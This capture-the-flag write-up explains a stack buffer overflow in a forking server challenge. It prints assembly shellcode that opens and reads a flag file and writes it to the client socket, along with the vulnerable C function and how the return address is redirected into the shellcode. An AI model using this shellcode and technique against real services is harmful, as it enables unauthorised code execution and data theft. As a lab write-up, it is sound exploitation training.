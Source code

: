 # server

This challenge is very similar to the [Only Read Write](../onlyreadwrite/README.md) challenge. The only difference is that the binary now is a server that listens on a port and forks a child process that reads in a buffer. Then we have to write not on stdout but on the socket file descriptor.

```c
    mov r12, rdi
    mov rax, 0x101010101010101
    push rax
    mov rax, 0x101010101010101 ^ 0x67616c662f2e
    xor [rsp], rax
    mov rdi, rsp
    xor edx, edx /* 0 */
    xor esi, esi /* 0 */
    /* call open() */
    push SYS_open /* 2 */
    pop rax
    syscall
    /* call read(fd_open, 'rsp', 0x64) */
    push rax
    xor eax, eax /* SYS_read */
    pop rdi
    push 0x64
    pop rdx
    mov rsi, rsp
    syscall
    /* write(fd_socket, buf='rsp', n=0x64) */
    push r12
    pop rdi
    push 0x64
    pop rdx
    mov rsi, rsp
    /* call write() */
    push SYS_write /* 1 */
    pop rax
    syscall
```

In this case I used R12 to store the socket file descriptor. The shellcode is the same as the previous challenge, except for the write part were we put R12 in RDI, and then we call write.

The process forked from the server executes this function

```c
void prog(int socket_fd) {
  size_t n;
  char name [1008];

  get_name(socket_fd, name);
  write(socket_fd, "Hello Mr.", 9);
  n = strlen(name);
  write(socket_fd, name, n);
  return;
}
```

get_name() is reading 4096 bytes in a buffer of 1008 bytes, so we have a buffer overflow. We overflow the buffer with the shellcode and modify the return address to point to it. We know the address of the shellcode because it is in the .bss section and the binary is not PIE.

The complete exploit is in [script.py](script.py).
